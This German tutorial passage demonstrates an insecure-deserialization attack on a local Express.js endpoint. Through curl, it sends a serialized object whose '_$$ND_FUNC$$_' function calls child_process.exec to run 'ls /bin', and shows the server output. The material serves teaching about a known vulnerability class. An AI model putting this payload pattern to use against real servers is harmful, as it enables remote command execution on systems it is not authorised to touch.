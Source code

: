 Bei diesem Beispiel wird vom Server als Parameter ,,fubar” ein
serialisiertes Objekt als Text entgegen genommen, deserialisiert und
ausgegeben. Das erwartete serialisierte Object wird nun über das
Kommandozeilentool *curl* an den Server übertragen:

```text
    $ curl -X POST -d "fubar={\"todo\":\"some string\"}" http://localhost:3000/api/deserialize

    # Ausgabe am Server:
    Server started! (Express.js)
    serialized normal object: {"todo":"some string"}
    serialized attack code: {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}

    { todo: 'some string' }
```

In Javascript kann eine Klasse/Objekt auch eine Funktion als Element
besitzen. Folgende Klasse inkludiert z.B. unter dem Namen ,,todo” nicht
ein Attribut, sondern eine ausführbare Funktion:

```javascript
// Beispiel eines serialisierten Objekts mit einer aufrufbaren Funktion
const todo = {
      todo : function() {
          // child_process kann verwendet werden um eine ausführbare Datei aufzurufen
          require('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})
      }
  };
```

Wird diese Klasse serialisiert, wird folgender serialisierter Text
erstellt:

```json
{"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}
```k

Dieser inkludiert das Ausführen eines Befehls (,,ls /bin”) in der
Hoffnung, dass beim deserialisieren dieser Befehl am Server aufgerufen
werden würde. Dieses Kommando wird nun ebenso über curl an den Server
übertragen:

```text
# Die Zeichen \ und $ mussten teilweise maskiert werden
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}\"}" http://localhost:3000/api/deserialize

# Ausgabe am Server:

{ todo: [Function (anonymous)] }
```
